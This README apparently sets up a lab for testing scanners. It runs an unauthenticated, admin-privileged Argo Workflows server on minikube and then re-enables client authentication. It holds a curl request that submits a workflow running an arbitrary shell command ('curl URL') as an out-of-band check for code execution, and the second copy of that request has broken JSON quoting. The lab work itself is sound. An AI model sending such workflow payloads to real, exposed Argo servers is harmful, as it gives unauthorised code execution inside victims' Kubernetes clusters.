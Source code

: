 # Setup Requirements
1. k8s with minikube: https://minikube.sigs.k8s.io/docs/start/ (we can use original k8s but this is a easy solution)
2. please don't forget to add `alias kubectl="minikube kubectl --"` to your shell environment.

# Vulnerable Instance
## Install Argo Workflows
```bash
kubectl create namespace argo
kubectl apply -n argo -f https://github.com/argoproj/argo-workflows/releases/download/v3.5.5/install.yaml
```
## remove authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=server"]}]'
```

## allow Argo to interact with the resources in your Kubernetes cluster with admin-level privileges
```bash
kubectl create rolebinding argo-default-admin --clusterrole=admin --serviceaccount=argo:default -n argo
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Validate with OOB
Replace `PAYLOAD` with your payload and escape the `"` as it is a json value.
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL"}}]}}}' \
  --insecure
```
# secure instance
after setting up a vulnerable version, change the authentication mode to client.
## change authentication
```bash
kubectl patch deployment argo-server --namespace argo  --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/args", "value": ["server","--auth-mode=client"]}]'
```
## Expose the UI to localhost
```bash
kubectl -n argo port-forward deployment/argo-server 2746:2746
```
## Check that authentication is enabled
```bash
curl 'https://127.0.0.1:2746/api/v1/workflows/default' \
  -H 'Content-Type: application/json' \
  --data-raw '{"workflow":{"apiVersion":"argoproj.io/v1alpha1","kind":"Workflow","metadata":{"name":"","generateName":"scripts-"},"spec":{"destination":{"name":"","namespace":"","server":""},"source":{"path":"","repoURL":"","targetRevision":"HEAD"},"project":"","entrypoint":"aaaaaa","templates":[{"name":"aaaaaa","script":{"image":"curlimages/curl:7.78.0","command":["sh"],"source":"curl URL}}]}}}' \
  --insecure
```
it will response with `{"code":16,"message":"token not valid. see https://argo-workflows.readthedocs.io/en/release-3.5/faq/"}` which prove us that there is a authentication layer.


Ref: mostly from https://spacelift.io/blog/argo-workflows and https://argo-workflows.readthedocs.io/en/stable/argo-server-auth-mode/
